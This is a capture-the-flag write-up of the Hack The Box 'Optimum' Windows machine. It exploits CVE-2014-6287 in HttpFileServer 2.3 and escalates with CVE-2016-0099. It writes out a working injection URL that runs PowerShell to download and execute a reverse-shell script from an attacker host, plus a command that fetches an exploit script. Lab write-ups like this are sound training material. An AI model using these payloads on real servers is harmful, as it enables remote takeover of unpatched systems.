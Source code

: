 # Optimum Writeup - by Thammanant Thamtaranon  
- Optimum is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash 
nmap -A -T4 -p- 10.10.10.8
```
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed one open port:  
  - 80 (HTTP)  

## Scanning & Enumeration  
- Visiting the HTTP website revealed `HttpFileServer 2.3`.  
- We then searched for the CVE and found **CVE-2014-6287**.  
![CVE](CVE.png)  
- **CVE-2014-6287** is a Remote Code Execution vulnerability due to a regex deficiency in the `findMacroMarker` function of the parser. It fails to handle null bytes (%00) correctly, allowing arbitrary HFS scripting commands to be executed, leading to remote code execution.

## Exploitation  
- We confirmed the vulnerability by visiting:  
`http://10.10.10.8/?search=%00{.+exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+/c+ping+10.10.16.8.}`
![PoC](PoC.png)  
- This confirmed the vulnerability exists. We then changed the URL to:  
`http://10.10.10.8/?search=%00{.+exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.8:8000/shell.ps1').}` 
- This downloads and executes `shell.ps1`.  
![GET](GET.png)  
- We got a shell as user `kostas`.  
![Shell](Shell.png)  
- We captured the user flag.

## Privilege Escalation  
- We ran `whoami /priv` and `whoami /groups` but found nothing useful.  
- We then ran `systeminfo`.  
![SystemInfo](SystemInfo.png)  
- Searching for `Microsoft Windows Server 2012 R2 CVE` revealed **CVE-2016-0099**, a Local Privilege Escalation (LPE) vulnerability in the Secondary Logon Service (seclogon) responsible for “Run as” functionality.  
- The root causes:  
  - Improper Memory Handling: The service mishandles request objects in memory, allowing manipulation of execution flow.  
  - Insufficient Access Control / Validation: Fails to properly check permissions or validate input, allowing code execution with SYSTEM privileges.  
- We downloaded the PoC from [exploit-db](https://www.exploit-db.com/exploits/39719).  
- We transferred the PoC to the target machine:
```bash   
Invoke-WebRequest -Uri http://10.10.16.8:8000/exploit.ps1 -OutFile exploit.ps1
```
- Then we loaded the script into the current scope:
```bash  
. C:\Users\kostas\Desktop\exploit.ps1
```
- Running `Invoke-MS16-032` executed the exploit, but the current shell did not elevate to SYSTEM.  
- We then used Metasploit, starting from exploiting **CVE-2014-6287**, backgrounded the session, and then exploited **CVE-2016-0099**.  
![MSF1](MSF1.png)  
![MSF2](MSF2.png)  
![MSF3](MSF3.png)  
- We obtained a SYSTEM shell and captured the root flag.
